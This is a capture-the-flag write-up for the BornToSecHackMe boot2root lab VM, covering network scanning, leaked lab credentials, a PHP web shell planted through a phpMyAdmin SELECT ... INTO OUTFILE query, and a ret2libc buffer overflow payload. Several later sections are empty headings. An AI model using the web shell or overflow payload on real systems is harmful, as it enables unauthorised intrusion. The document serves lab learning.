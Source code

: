 # Writeup 1

## Step 1 - Nmap

We don't see the ip of the boot2root vm, so we have to find it on our network.
We get the **ip address** of **our computer** and the **netmask of the network** with **ifconfig**:

```sh
➜  boot2root ifconfig               
enp0s3: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.1.128  netmask 255.255.255.0  broadcast 192.168.1.255
```

We then do a **ping scan** on the **home network** with nmap, and we can see the ip of the boot2root vm. We then do a **port scan** on **its ip address**:
```sh
➜  boot2root nmap -sn 192.168.1.128/24    
Starting Nmap 7.80 ( https://nmap.org ) at 2020-12-18 16:39 CET
[...]
Nmap scan report for 192.168.1.76
Host is up (0.00079s latency).
[...]
➜  boot2root nmap -Pn 192.168.1.76
Starting Nmap 7.80 ( https://nmap.org ) at 2020-12-18 16:40 CET
Nmap scan report for 192.168.1.76
Host is up (0.00037s latency).
Not shown: 994 closed ports
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
80/tcp  open  http
143/tcp open  imap
443/tcp open  https
993/tcp open  imaps

Nmap done: 1 IP address (1 host up) scanned in 0.15 seconds
```

So we can see that there **6 open ports**: one for **ftp**, one for **ssh**, two for **http and https**, meaning there is a **webserver**, and 2 for **imap and imaps**, handling the **webmail.**

---

## Step 2 - Dirb

Now that we know that there is a **webserver**, we use **dirb** to test the possible urls on the https://ip-address, and we find out some interesting ones:

```bash
➜  boot2root dirb https://192.168.1.76

---- Scanning URL: https://192.168.1.76/ ----
==> DIRECTORY: https://192.168.1.76/forum/
==> DIRECTORY: https://192.168.1.76/phpmyadmin/
==> DIRECTORY: https://192.168.1.76/webmail/

---- Entering directory: https://192.168.1.76/forum/ ----
==> DIRECTORY: https://192.168.1.76/forum/images/
==> DIRECTORY: https://192.168.1.76/forum/includes/
==> DIRECTORY: https://192.168.1.76/forum/js/
==> DIRECTORY: https://192.168.1.76/forum/lang/
==> DIRECTORY: https://192.168.1.76/forum/modules/
==> DIRECTORY: https://192.168.1.76/forum/templates_c/
==> DIRECTORY: https://192.168.1.76/forum/themes/
==> DIRECTORY: https://192.168.1.76/forum/update/

---- Entering directory: https://192.168.1.76/phpmyadmin/ ----
==> DIRECTORY: https://192.168.1.76/phpmyadmin/js/
==> DIRECTORY: https://192.168.1.76/phpmyadmin/locale/
==> DIRECTORY: https://192.168.1.76/phpmyadmin/themes/

---- Entering directory: https://192.168.1.76/webmail/ ----
==> DIRECTORY: https://192.168.1.76/webmail/config/
==> DIRECTORY: https://192.168.1.76/webmail/images/
==> DIRECTORY: https://192.168.1.76/webmail/plugins/
==> DIRECTORY: https://192.168.1.76/webmail/src/
==> DIRECTORY: https://192.168.1.76/webmail/themes/
```

---

## Step 3 - Forum  

We go on the forum page (https://192.168.1.76/forum/), running on mylittleforum, and we can see several threads. In the **"Probleme login ?"** one, by lmezard, we can see some **logs**.  
If we look into them, at some point we can see a **clear password** in the login section, and an authenticated session right after:

```
Oct 5 08:45:29 BornToSecHackMe sshd[7547]: Failed password for invalid user !q\]Ej?*5K5cy*AJ from 161.202.39.38 port 57764 ssh2
[...]
Oct 5 08:46:01 BornToSecHackMe CRON[7549]: pam_unix(cron:session): session opened for user lmezard by (uid=1040)
```

So we try to **log in the forum** as the user **lmezard** with the **!q\]Ej?\*5K5cy\*AJ** password, and it works.

---

## Step 4 - Webmail

When we go on the profile of lmezard, we can see an **email address**:
```
laurie@borntosec.net 
```

We try to **log in the webmail** (https://192.168.1.76/webmail/) with this email address and the password from the logs, and we get access to the user's mailbox.
There, we find an email named **DB Access** with **a root user and a password**:

```
Hey Laurie,

You cant connect to the databases now. Use root/Fg-'kKXBj87E:aJ$

Best regards.
```

So we can suppose we can use those credentials to get access to the phpmyadmin database as root.

---

## Step 5 - Phpmyadmin

We log on the https://192.168.1.76/phpmyadmin page with those credentials, and we get access to the database as root.

After searching for a bit, we can see that there is a feature that allows us to run SQL queries in the SQL section of the databases.

We found this query that allows us to open a shell in the browser:
```SQL
SELECT "<HTML><BODY><FORM METHOD=\"GET\" NAME=\"myform\" ACTION=\"\"><INPUT TYPE=\"text\" NAME=\"cmd\"><INPUT TYPE=\"submit\" VALUE=\"Send\"></FORM><pre><?php if($_GET['cmd']) {system($_GET[\'cmd\']);} ?> </pre></BODY></HTML>"
INTO OUTFILE '/var/www/payload.php'
```

But if we try to execute it, we get an error specifying us that we don't have the rights to create/write on this file. 

So we need to find a file or folder where we have the write/create rights. When we look at the dirb results earlier, we have a list of potential folders where we could have those rights.

When we look at the admin update page in the forum (after giving lmezard the admin rights on the BDD), or when we read the installation process of mylittleforum on github (https://github.com/ilosuna/mylittleforum), we can see that the folder **templates_c** is supposed to have these rights:

```
the write permissions of the subdirectory templates_c (CHMOD 770, 775 or 777) 
```

We see it on the dirb results too, so we use it in our query:

```SQL
SELECT [...]
INTO OUTFILE '/var/www/forum/templates_c/payload.php'
```

The SQL query works, and when we go at the address https://192.168.1.76/forum/templates_c/payload, we can see that it opens an interactive shell.

---

## Step 6 - User www-data

In the interactive shell, we can see that **we are the user www-data**, and when we list the files in the **/home** folder, we see a folder named **LOOKATME** owned by the www-data user.

```
drwxr-x--- 2 www-data             www-data              31 Oct  8  2015 LOOKATME
```

There is a file named **password** in this folder, which holds:

```
lmezard:G!@M6f4Eatau{sF"
```

However when we look at the **sshd_config** file, we can see that there are **only 4 users allowed** to connect in ssh, and lmezard is not one of them.

```
AllowUsers ft_root zaz thor laurie
```

---

## Step 7 - FTP

We try those credentials on the 21 port, used for FTP and it works.


---

## Step 8 - Laurie / The Bomb


### Phase 1

### Phase 2

### Phase 3

### Phase 4

### Phase 5

### Phase 6

### Result

```
PHASE 1: Public speaking is very easy.
PHASE 2: 1 2 6 24 120 720
PHASE 3: 1 b 214
PHASE 4: 9
PHASE 5: opekmq / opekma
PHASE 6: 4 2 6 3 1 5

Publicspeakingisveryeasy.126241207201b2149opekmq426315
```

This password doesn't work, and according to slack, we need to change `n-1` with `n-2`, so the password is: `Publicspeakingisveryeasy.126241207201b2149opekmq426135`

---

## Step 9 - Thor / Turtle


zaz password:

---

## Step 10 - Zaz / Exploit-me

We can see a binary called 
https://wiremask.eu/tools/buffer-overflow-pattern-generator/?

```
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7e6b060 <system>
(gdb) find 0xb7e6b060, +9999999, "/bin/sh"
0xb7f8cc58

```

```
zaz@BornToSecHackMe:~$ python -c 'print "A"*140 + "\x60\xb0\xe6\xb7" + "AAAA" + "\x58\xcc\xf8\xb7"' > test
zaz@BornToSecHackMe:~$ ./exploit_me $(cat test)
```
